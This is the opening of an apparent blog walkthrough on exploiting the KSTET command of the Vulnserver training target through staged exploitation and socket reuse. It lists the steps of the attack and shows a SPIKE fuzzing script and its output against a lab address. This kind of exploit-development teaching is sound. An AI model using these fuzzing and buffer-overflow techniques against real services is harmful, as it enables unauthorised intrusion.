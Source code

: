 # Vulnserver KSTET - Staged exploitation and Socket reusing

- [Vulnserver KSTET - Staged exploitation and Socket reusing](#vulnserver-kstet---staged-exploitation-and-socket-reusing)
  - [Prologue](#prologue)
  - [Spiking the vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting instruction pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting code execution](#redirecting-code-execution)
  - [Stack pivoting](#stack-pivoting)
  - [Socket reusing](#socket-reusing)
  - [Adding socket reuse stager](#adding-socket-reuse-stager)
  - [Crafting shellcode](#crafting-shellcode)
  - [Exploitation](#exploitation)

## Prologue

On last blog, we have exploited the ```GTER``` command using ```Socket Reuse Stager``` and we are going to perform the same attack on ```KSTET``` command to gain access on target machine

I had tried exploiting with ```egg hunters``` on this command, but it didn't work because of some opcodes

I had used egg hunter with ```Wow64``` and my VM is running on ```x64 bit architecture```

If anyone succeeded in exploiting this command using these, kindly ping me.. It would be a great help

## Spiking the vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat kstet.spk      
s_readline();
s_string("KSTET ");
s_string_variable("0");
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ generic_send_tcp 192.168.116.140 9999 kstet.spk 0 0 
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005
Fuzzing Variable 0:3
Variablesize= 21

...

```
